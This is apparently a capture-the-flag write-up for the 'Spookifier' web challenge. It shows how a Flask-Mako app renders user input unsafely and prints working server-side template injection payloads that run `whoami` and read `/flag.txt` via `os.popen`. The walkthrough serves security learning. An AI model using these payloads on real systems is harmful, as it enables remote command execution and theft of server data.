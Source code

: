 # Web CTF Challenge: Spookifier

## Challenge Description
There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

In this web challenge we are provided with the following page:

## Analysis

### Initial Interface
![Spookifier application homepage](image.png)

### Testing Basic Functionality
Let's first enter something to see what happens.

**Result:**
![Application showing spookified input](image-1.png)

As we can see, it basically "spookifies" our input.

### Identifying the Vulnerability
What is interesting is how the site manages the call:
```
http://94.237.61.5:44437/?text=ddd
```

This makes us think about a **template literal exploit**. Let's try to give an input like `?text=${3*3}` to see if there is any logic interpreted in the backend.

![Testing template injection with mathematical expression](image-2.png)

And it works! As we can see, instead of displaying `${3*3}` it simply displayed `9`, which means the backend executes the logic.

### Source Code Analysis
As we see in the `routes.py` file that was provided to us, we have the following route:

```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html', output=converted)
   
    return render_template('index.html', output='')
```

The application uses **Flask-Mako** templating engine, which is vulnerable to Server-Side Template Injection (SSTI).

## Exploitation

### Testing Command Execution
We will try to see if we can execute other commands like `whoami` and display them on the site:
```
${self.module.cache.util.os.popen("whoami").read()}
```

![Successfully executing whoami command showing root user](image-3.png)

We successfully get `root` which is our user!

### Getting the Flag
Now let's simply cat the flag:
```
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

**Success:**
![Flag retrieved successfully](image-4.png)

## Solution Summary

1. **Identified SSTI vulnerability** in Mako templating engine
2. **Tested with mathematical expression** `${3*3}` to confirm template injection
3. **Escalated to RCE** using `${self.module.cache.util.os.popen()}`
4. **Retrieved flag** with `cat /flag.txt`

---

**Vulnerability Type:** Server-Side Template Injection (SSTI) in Flask-Mako  
**Payload Used:** `${self.module.cache.util.os.popen("cat /flag.txt").read()}`  